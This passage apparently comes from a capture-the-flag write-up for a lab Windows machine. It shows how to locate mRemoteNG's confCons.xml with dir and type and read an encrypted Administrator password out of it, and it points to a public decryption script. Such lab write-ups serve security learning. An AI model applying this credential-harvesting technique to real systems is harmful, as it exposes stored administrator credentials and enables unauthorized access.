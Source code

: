 Try to search public exploit for mRemoteNG, I saw a [python script to decrypt passwords stored by mRemoteNG](https://github.com/haseebT/mRemoteNG-Decrypt)

![](images/2.png)

Searching password stored location, I have the result is file `confCons.xml`.

![](images/3.png)

Using `dir /s` search location of file `confCons.xml` in the server. This file in the directory `C:\Users\L4mpje\AppData\Roaming\mRemoteNG`.

```
l4mpje@BASTION C:\Users>dir /s /d confCons.xml
<snip>
 Directory of C:\Users\L4mpje\AppData\Roaming\mRemoteNG

confCons.xml
<snip>
```

Read file `confCons.xml` and I have the encrypted Administrator's password.

```
l4mpje@BASTION C:\Users>type C:\Users\L4mpje\AppData\Roaming\mRemoteNG\confCons.xml
<snip>
    <Node Name="DC" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="500e7d58-662a-44d4-aff0-3a4f547a3fee" Username="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==" Hostname="127.0.0.1" Protocol="RDP" PuttySession="Default Settings" Port="3389"
 <snip>
```
